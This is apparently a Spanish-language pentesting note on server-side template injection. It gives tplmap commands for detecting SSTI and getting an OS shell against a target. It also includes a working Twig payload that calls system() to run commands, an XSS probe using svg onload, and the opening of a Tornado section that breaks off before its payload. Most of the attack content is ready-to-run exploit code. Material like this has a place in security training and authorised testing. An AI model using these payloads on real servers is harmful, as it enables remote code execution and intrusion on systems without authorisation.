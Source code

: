 ```bash
#peticion POST
./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john

#peticion GET
./tplmap.py -u 'http://www.target.com/page?name=John'

#en caso de encontrar un SSTI exitoso podemos intentar obtener un RCE
./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell
```

esto puede ayudarnos a descubrir el tipo de plantilla utilizado:

![[Pasted image 20230210072053.png]]

## EXPLOTACION

### TWIG

De estar seguros de que se esta usando una plantilla TWIG, podemos hacer lo siguiente.

El siguiente paso es lograr la ejecución remota de código en el servidor de destino. Antes de pasar a la parte de la carga útil, se debe mencionar que Twig tiene la variable `_self` que, en términos simples, hace públicas algunas de las API internas. Este objeto `_self` se ha documentado, por lo que no es necesario aplicar fuerza bruta a ningún nombre de variable (más sobre esto en los siguientes ejemplos de explotación de SSTI). Volviendo a la parte de ejecución remota de código, podemos usar la función `getFilter` ya que permite la ejecución de una función definida por el usuario a través del siguiente proceso:

-   Registre una función como devolución de llamada de filtro a través de`registerUndefinedFilterCallback`
    
-   Invocar `_self.env.getFilter()` para ejecutar la función que acabamos de registrar

```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
```

>[!tip]
>cuando notamos que se evalúan las expresiones matemáticas que enviamos, la aplicación también puede ser vulnerable a XSS.
>```bash
>{{<svg/onload=confirm()>}}>
>```

### TORNADO

Podemos validar este motor de plantillas con **Tplmap** o a veces se muestra en el header **Server** de la respuesta:

![[Pasted image 20230111221022.png]]

De encontrar esto, podemos ejecutar comandos de la siguiente manera:
